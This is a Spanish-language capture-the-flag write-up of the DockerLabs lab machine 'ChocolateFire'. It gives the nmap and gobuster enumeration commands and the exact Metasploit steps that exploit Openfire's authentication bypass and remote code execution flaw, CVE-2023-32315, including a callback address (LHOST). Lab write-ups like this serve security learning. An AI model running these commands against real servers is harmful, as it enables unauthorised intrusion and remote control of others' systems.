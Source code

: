 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - DockerLabs
  - Medium
  - HTTP
  - FuzzingWeb
  - Searchsploit
  - MSF
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Searchsploit|Searchsploit]]
	- [[#Explotación#MSFconsole|MSFconsole]]

---
# Resolviendo la máquina ChocolateFire

>En esta publicación, comparto cómo resolví la máquina **ChocolateFire** de [DockerLabs](https://dockerlabs.es/).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 172.17.0.2`

![[Pasted image 20250727085748.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts`

![[Pasted image 20250727085841.png]]

`nmap -p22,5222,5223,5262,5263,5269,5270,5275,5276,7070,7777,9090 -sCV 172.17.0.2 -oN targeted`

![[Pasted image 20250727090014.png]]
![[Pasted image 20250727090100.png]]
![[Pasted image 20250727090120.png]]
### HTTP

El servicio **HTTP** se encuentra disponible en el puerto 9090.

`http://172.17.0.2:9090`

![[Pasted image 20250727091652.png]]
#### Fuzzing Web

`gobuster dir -u http://172.17.0.2:9090 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250727091731.png]]

---
## Explotación
### Searchsploit

Se utiliza `searchsploit` para identificar vulnerabilidades asociadas a *Openfire*.

`searchsploit Openfire`

![[Pasted image 20250727092007.png]]
### MSFconsole

En Metasploit (`msfconsole`) se busca un módulo compatible con la *Openfire*. Se encuentra el exploit (`exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315`) que permite una **bypass de autenticación** y ejecución remota de código (**RCE**).

Este exploit aprovecha una vulnerabilidad en *Openfire* (**CVE-2023-32315**), permitiendo ejecutar comandos remotos sin autenticación previa.

```
search Openfire
use 4 | use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
show options
set RHOSTS 172.17.0.2
set LHOST 192.168.1.127
exploit
```

![[Pasted image 20250727092534.png]]

---